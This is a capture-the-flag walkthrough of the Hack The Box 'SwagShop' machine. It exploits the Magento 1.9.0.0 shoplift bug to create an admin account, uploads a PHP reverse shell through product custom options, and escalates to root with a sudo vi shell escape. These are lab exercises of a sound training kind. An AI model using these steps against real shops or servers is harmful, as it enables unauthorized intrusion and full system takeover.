

# SwagShop 🟢🟢🟢

<figure><figcaption></figcaption></figure>

[https://app.hackthebox.com/machines/swagshop](https://app.hackthebox.com/machines/swagshop)&#x20;

SwagShop is an easy difficulty linux box running an old version of Magento. The version is vulnerable to SQLi and RCE leading to a shell. The www user can use vim in the context of root which can abused to execute commands.

### Reconnaissance

```bash
nmap -T4 -sVC 10.10.10.140 -oN Nmap
```

<figure><figcaption></figcaption></figure>

* Found only ssh and http open nothing intresting. We could go for URL Fuzzing.
* http is redirecting to `swagshop.htb` so `gedit /etc/hosts` add `10.10.10.140 (press tab) swagshop.htb`

### Directory Fuzzing


```bash
gobuster dir -u http://swagshop.htb/ -w /usr/share/wordlists/wordlists/SecLists/Discovery/Web-Content/common.txt
```


<figure><figcaption></figcaption></figure>

* while surfing all urls found a pakage file and got version of website.
* `http://swagshop.htb/var/package/Mage_All_Latest-1.9.0.0.xml`
* Got Magento 1.9.0.0 `google` or `searchsploit` it.

### Magento shoplift bug

Magento shoplift bug originally discovered by CheckPoint team (http://blog.checkpoint.com/2015/04/20/analyzing-magento-vulnerability/) This python script developed by joren but it was having some bug because of which it was not working properly.

* &#x20;If magento version is vulnerable, this script will create admin account with username `forme` and password `forme`

<figure><figcaption></figcaption></figure>

* `target = "http://swagshop.htb/index.php"`  Make this changes in `37977.py`

<figure><figcaption></figcaption></figure>

### Getting Shell

* after login with `forme:forme` you get a dashboard.
* Surfing a little bit got products **Catalog > Any item > Custom options > Add new option** edit them **add file/type .php** permission to costumers.

<figure><figcaption></figcaption></figure>

* Locate to that folder there will be option to upload file.
* Just upload your php reverse shell and open `nc -nvlp` listener in your terminal
* Navigate to where that php file is uploaded there is a media foder `media/custom_options/quote/`  and click your uploaded .php and get beck shell.

### Finding user.txt

* Will get a www user shell after getting a reverse shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

* To updrage the shell and use it fully.
* Found user flag in `/home/haris/user.txt`

### Previlage Esculation Root.txt

`sudo -l`

```bash
sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

Found that user can run vi command without root password as a sudo user.

* Go to `gtfobins` and Found sudo for vi [here](https://gtfobins.github.io/gtfobins/vi/)

```bash
sudo /usr/bin/vi /var/www/html/* -c ':!/bin/sh' /dev/null
```

* after running this command you get a root shell :)

```bash
www-data@swagshop:/home/haris$ sudo /usr/bin/vi /var/www/html/* -c ':!/bin/sh' /dev/null
# /bin/sh //press enter to all

# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt

```

<figure><figcaption></figcaption></figure>
